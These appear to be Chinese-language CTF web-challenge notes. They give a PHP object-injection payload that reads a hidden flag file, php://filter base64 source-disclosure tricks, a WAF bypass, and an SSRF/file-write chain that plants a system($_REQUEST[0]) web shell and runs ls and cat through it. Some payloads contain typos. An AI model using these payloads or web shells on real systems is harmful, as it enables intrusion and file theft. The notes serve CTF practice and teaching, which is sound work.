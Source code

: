 将xxx处改为：

`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`

之后步骤如前，将filename改为：

`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`

得到flag：

`CTF{4d96e37f4be998c50aa586de4ada354a}`


### php 代码分析

    $first ="hello";
    $hello ="world";
    echo $first." ".$$first;
    结果是 hello world
    $$first就是$hello，因为$first的值是hello
    
    var_dump($$args) , flag可能存在于 , 全局变量 $GLOBALS , ?args=GLBOALS

### php://filter元封装器
    名称  描述
    resource=<要过滤的数据流>这个参数是必须的。它指定了你要筛选过滤的数据流。
    read=<读链的筛选列表>该参数可选。可以设定一个或多个过滤器名称，以管道符（）分隔。
    write=<写链的筛选列表>该参数可选。可以设定一个或多个过滤器名称，以管道符（）分隔。
    <；两个链的筛选列表>任何没有以read=或write=作前缀的筛选器列表会视情况应用于读或写链。
    
    过滤器列表：http://php.net/manual/zh/filters.php
    
    --- web2
    页面1 http://xxx/?user='%23 -- 注释字符抓包，python生成字典。burp 暴破。
    本题限制了4位字符 '%1%23 刚好4位
    
    页面2 抓所看到 .viminfo 访问一下。
    找一个unicode字符和英文字符一样的。代替一下目标字符就能过waf
    
    页面3 
    使用path=http://127.0.0.1/&filename=1.txt
      写文件到upload目录下, 访问这个1.txt
    尝试 path=http://127.0.0.1/xxx.php?usern3me=<?php info();?>&filename=1.txt
      发现可以访问，但是需要编码。
    尝试 path=http://127.0.0.1/xxx.php?usern3me=<?php system($_[REQUEST[0]);?>&filename=1.txt
    改成PHP文件 path=http://127.0.0.1/xxx.php?usern3me=<?php system($_[REQUEST[0]);?>&filename=1.php
      用Hackbar上面的Encoding进行URL编码。空格要2次编码
      %20 改成 %2520
      %3D 是 =
    直接用它来执行命令 path=http://127.0.0.1/1.php?0=ls ../ 找到flag文件
    查看 path=http://127.0.0.1/1.php?0=cat ../flag_is_here.php 查看源代码
    https://www.freebuf.com/vuls/116705.html
    
    读取文件
    php://filter/read=convert.base64-encode/resource=show.php
    Burp Suite - Decoder 中可以解base64,
    